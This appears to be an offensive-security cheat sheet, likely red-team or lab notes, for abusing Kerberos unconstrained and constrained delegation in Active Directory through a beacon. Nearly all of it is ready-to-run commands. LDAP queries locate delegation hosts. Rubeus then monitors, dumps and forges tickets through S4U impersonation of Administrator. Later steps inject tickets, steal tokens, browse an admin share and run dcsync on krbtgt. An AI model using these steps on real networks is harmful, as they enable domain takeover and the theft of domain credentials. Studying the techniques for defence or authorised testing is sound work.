 
##### Unconstrained Delegation
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
```

Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible 
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=LON-WKSTN-1$)) --attributes userAccountControl
```

We want true
```powershell
[Convert]::ToBoolean(16781312 -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```

Perform the S4U abuse to obtain a usable service ticket for **a service listed in the `msDS-AllowedToDelegateTo`** value, impersonating the default domain admin.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:ldap/lon-dc-1 /impersonateuser:Administrator /nowrap /ticket:
```

With protocol transition **/altservice**
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:ldap/lon-dc-1 /impersonateuser:Administrator /nowrap /altservice:cifs /ticket:
```

 Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

 Impersonate the process and verify
```powershell
steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync CONTOSO.COM CONTOSO\krbtgt
```